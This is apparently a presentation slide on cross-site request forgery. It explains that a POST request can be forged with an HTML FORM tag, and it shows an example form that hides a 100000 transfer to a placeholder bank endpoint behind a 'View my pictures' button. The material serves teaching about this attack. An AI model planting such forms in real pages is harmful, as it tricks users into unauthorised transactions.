

#
Such a request cannot be delivered using standard A or IMG tags, but can be delivered using a FORM tag:
<form action="http://bank.com/transfer.do" method="POST">
	<input type="hidden" name="acct" value="MARIA"/>
	<input type="hidden" name="amount" value="100000"/>
	<input type="submit" value="View my pictures"/>
</form>